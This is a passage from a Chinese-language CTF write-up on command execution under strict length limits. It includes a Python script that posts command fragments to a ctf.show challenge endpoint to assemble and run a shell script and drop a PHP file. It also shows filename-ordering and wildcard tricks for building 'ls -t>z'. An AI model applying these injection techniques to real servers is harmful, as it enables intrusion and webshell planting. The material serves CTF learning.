 ```php
m>ech\\
ls -t>0
sh 0
```

**注意**：这里需要对特殊字符`空格 | ;`等等可能影响的字符进行转义

执行脚本：

```python
url = "http://88857b81-3c00-44d5-a863-5b281424e563.challenge.ctf.show/api/tools.php"
# url = "http://127.0.0.1:9999/test.php"
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0",
    "Cookie": "UM_distinctid=17fe95519f57f-03751c35734564-4c3e247b-151800-17fe95519f611dc"
}
data = {
    "cmd": ""
}
print(url[:-13])
with open("E:\\my_vscode_python\\webScript\\byte7.txt", 'r') as f:
    for i in f.readlines():
        # url = url1 + i.strip()
        data["cmd"] = i.strip()
        requests.post(url, data=data, headers=headers)
        time.sleep(1)
        print(f"已经请求{url}")
res = requests.get(url[:-13]+"/1.php")
if res.status_code == 200:
    print("ok, You have already upload!")
```

#### 限制长度 5

思考如何突破 `ls -t>z`

先生成一个里面存有`ls -t>z`的文件a，利用`sh a`产生带有exp的z文件

```php
ls -rt>z

由于Linux系统中ls默认排序是根据字符顺序排序的，所以拆解命令

>l\\
>s\ \\
>-rt\\
>\>z\\
ls>a
```

#### 限制长度 4

同样思路也是解决 `ls -t>z`这个问题，但是如果是四个字符的话，很难找到相应的字母来固定ls执行后的顺序，所以这里有新的知识点

> 输入通配符*， Linux会把第一个列出来的文件名当作命令，剩下的文件名当作参数
